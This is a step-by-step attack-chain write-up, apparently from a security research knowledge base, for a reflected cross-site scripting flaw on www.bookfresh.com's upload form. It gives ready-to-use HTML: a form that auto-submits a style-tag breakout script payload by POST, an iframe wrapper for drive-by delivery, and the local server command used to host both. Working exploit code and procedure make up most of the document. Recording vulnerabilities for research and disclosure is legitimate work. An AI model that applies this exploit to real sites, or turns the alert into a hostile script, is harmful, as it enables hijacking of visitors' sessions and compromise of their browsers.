

# Reflected XSS via Unsanitized POST Parameter in Inline CSS on Bookfresh Upload Form

Multi-stage attack chain demonstrating a complete reflected XSS exploit on www.bookfresh.com, leveraging differences in parameter sanitization between GET and POST requests to inject JavaScript via inline CSS reflection.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/PHP-Built-in-Server]]

### Target Environment

- Web platform
- Access to target: https://www.bookfresh.com/index.html?view=upload_form
- Local development environment with PHP installed
- Browser (e.g., Firefox for verification)

### Initial Access Requirements

- No credentials required
- Public network access to the target site
- Local file system access for hosting

## Detailed Attack Procedures

### Step 1: Create Malicious POST Form
procedure: [[procedures/Craft-Malicious-POST-Form-for-XSS-Exploit]]

**Objective**: Craft an HTML form that auto-submits a payload to close the reflected style tag and inject a script, exploiting the lack of POST sanitization.

**Instructions**: Create a file named `exploit-form.html` with the following content, targeting the vulnerable endpoint:

```html
<!DOCTYPE html>
<html>
<body>
<form id="xssform" action="https://www.bookfresh.com/index.html" method="post">
<input type="hidden" name="bk" value="</style><script>alert(document.domain);</script><style>">
<input type="hidden" name="view" value="upload_form">
</form>
<script>document.getElementById('xssform').submit();</script>
</body>
</html>
```

**Expected Output**: Form auto-submits on load, sending the payload via POST.

**Success Indicators**:
- Form file created without errors
- Payload includes tag closure and script injection

### Step 2: Embed Form in Iframe
procedure: [[procedures/Embed-Exploit-Form-in-Iframe]]

**Objective**: Embed the malicious form in an iframe to deliver the exploit via a drive-by mechanism, enabled by the missing X-Frame-Options header.

**Instructions**: Create a file named `iframe-exploit.html` that loads the form file in an iframe:

```html
<!DOCTYPE html>
<html>
<body>
<iframe src="exploit-form.html"></iframe>
</body>
</html>
```

**Expected Output**: Iframe loads the form, triggering submission.

**Success Indicators**:
- Iframe file created
- References the correct local path to exploit-form.html

### Step 3: Host Exploit Files Locally
procedure: [[procedures/Host-Exploit-Files-Locally-with-PHP-Server]]

**Objective**: Serve the HTML files locally to simulate a malicious external site framing the target.

**Instructions**: Navigate to the directory containing the HTML files and execute [[commands/php-built-in-server-start]]:

```bash
php -S localhost:8000
```

**Expected Output**: Server starts, serving files at http://localhost:8000.

**Success Indicators**:
- Server output: "PHP 8.x.x Development Server (http://localhost:8000) started"
- Files accessible via browser at http://localhost:8000/exploit-form.html

### Step 4: Trigger XSS via Iframe Page
procedure: [[procedures/Trigger-XSS-via-Iframe-Page]]

**Objective**: Load the iframe page in a browser to initiate the cross-site request and exploit execution.

**Instructions**: With the server running, open http://localhost:8000/iframe-exploit.html in a browser.

**Expected Output**: Page loads, iframe submits form to target, injecting payload.

**Success Indicators**:
- No framing errors (due to missing X-Frame-Options)
- Form submission occurs automatically

### Step 5: Verify JavaScript Execution
procedure: [[procedures/Verify-JavaScript-Execution]]

**Objective**: Confirm arbitrary JS execution by observing the alert dialog.

**Instructions**: Monitor the browser after loading the iframe page; the payload should execute after submission.

**Expected Output**: Alert dialog displays "www.bookfresh.com".

**Success Indicators**:
- Alert fires in Firefox (may not in Chrome due to CSP or other protections at the time)
- JS executes in victim's context

## Attack Chain Summary

### Key Achievements

1. Bypassed GET sanitization by using POST for reflection
2. Exploited inline CSS injection to break out and run JS
3. Delivered via framable site for drive-by XSS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T12:00:00Z*
